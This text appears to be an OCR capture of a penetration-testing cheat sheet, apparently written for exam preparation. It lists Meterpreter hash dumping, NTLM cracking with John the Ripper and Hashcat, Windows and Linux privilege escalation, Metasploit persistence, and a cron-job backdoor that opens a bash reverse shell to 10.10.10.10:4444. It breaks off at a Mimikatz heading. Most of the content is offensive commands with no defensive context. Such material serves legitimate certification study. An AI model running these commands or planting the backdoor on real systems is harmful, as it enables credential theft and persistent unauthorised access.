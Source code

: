 Windows Hash Extraction

```
meterpreter > hashdump
```

```
meterpreter > run post/windows/gather/smart_hashdump
```


John the Ripper (NTLM)

```
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


Hashcat (GPU Accelerated)

```
hashcat -m 1000 ntlm_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

### Privilege Escalation (Guaranteed Exam Task)

Windows (Meterpreter)

```
meterpreter > getsystem
```

```
meterpreter > run post/multi/recon/local_exploit_suggester
```

Linux (Manual)

```
find / -perm -4000 2>/dev/null  # SUID Binaries
```

```
sudo -l  # Check sudo permissions
```

### Maintaining Access

Metasploit Persistence

```
meterpreter > run persistence -X -i 60 -p 4444 -r 10.10.10.10
```

Cron Job Backdoor

```
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'" > cronjob
```

### Post-Exploitation Framework

Windows (Mimikatz)
